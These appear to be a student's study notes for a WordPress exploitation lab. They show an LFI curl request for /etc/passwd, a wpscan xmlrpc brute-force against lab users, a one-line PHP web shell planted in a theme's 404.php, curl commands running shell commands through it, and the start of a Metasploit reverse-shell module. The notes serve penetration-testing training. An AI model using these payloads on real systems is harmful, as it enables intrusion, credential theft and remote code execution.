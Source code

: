 # 🧊 Exploitation

## Vulnerable Plugin

Let's say we identified via a WPScan an outdated theme or plugin known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). \
We can verify if the LFI can be exploited based on this exploit-db [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or through cURL ->

```shell-session
curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

### User Bruteforce

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`.

```shell-session
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

_**Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.**_

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /home/htb-ac-1032889/Downloads/rockyou.txt --url http://94.237.53.113:47407
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## RCE via the Theme Editor

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Once we're logged in, we click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

And now we should be able to use a webshell using the `404.php?cmd=id`.

And we can check this with the following cURL command:&#x20;

```shell-session
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

_**Use the credentials for the admin user \[admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.**_

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://94.237.53.113:47407/wp-content/themes/twentyseventeen/404.php?cmd=id
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
curl -X GET "http://94.237.53.113:47407/wp-content/themes/twentyseventeen/404.php?cmd=cat%20/home/wp-user/flag.txt"
```

## Attacking with Metasploit

To obtain the reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:

```shell-session
msf5 > search wp_admin
```

Once we set all of the options for this module and we hit run, it will launch a reverse shell
